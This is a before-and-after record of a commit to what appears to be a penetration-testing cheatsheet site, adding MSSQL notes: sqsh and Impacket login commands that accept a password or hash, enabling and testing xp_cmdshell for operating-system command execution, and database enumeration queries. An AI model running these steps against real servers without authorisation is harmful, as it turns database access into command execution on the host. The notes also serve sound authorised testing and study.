

Before and after one commit to agrzeslak/cheatsheet, a Jekyll site: the page built from _topics/sql.md, in a window 1280 px wide. Shown: the whole page, without its empty margins (209-1066 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
smb, sql, reverse shell and privesc updates

````diff
--- a/_topics/sql.md
+++ b/_topics/sql.md
@@ -7,10 +7,49 @@ tags:
     - structured query language
 ---
 # SQL
+## CLI Tools
+```shell
+sqsh -S 10.10.10.10 -U [USERNAME] -P [PASSWORD/HASH]
+```
+- Supports Kerberos but don't know of way to use Windows authentication
+
 ## MSSQL
 Impacket CLI Client
 ```shell
 /usr/share/doc/python-impacket/examples/mssqlclient.py [USER]@10.10.10.10
 ```
 - `[[domain/]username[:password]@]10.10.10.10`
-- If you provide the password as part of the target then it's treated as an ldap query; simply use the prompt otherwise
+- If you provide the password as part of the target then it's treated as an LDAP query; use the prompt otherwise
+
+Test `xp_cmdshell`
+```sql
+xp_cmdshell 'whoami'
+GO
+```
+
+If disabled, attempt to enable
+```sql
+EXEC SP_CONFIGURE 'show advanced options', 1  -- only do this if it doesn't work regularly and it's actually an advanced option
+RECONFIGURE  -- as above
+EXEC SP_CONFIGURE 'xp_cmdshell', 1
+RECONFIGURE
+GO
+```
+
+List databases
+```sql
+SELECT name FROM master.sys.databases
+```
+
+List tables in database
+```sql
+USE [DATABASE]
+SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE='BASE TABLE'
+```
+
+## PowerUpSQL
+_Must run from Windows; issues with Powershell for Linux_
+
+<https://github.com/NetSPI/PowerUpSQL>
+
+todo
````
Also changed, not shown: _topics/linux-privesc.md (+12 -0 lines), _topics/reverse-shells.md (+2 -2 lines), _topics/smb.md (+12 -0 lines).
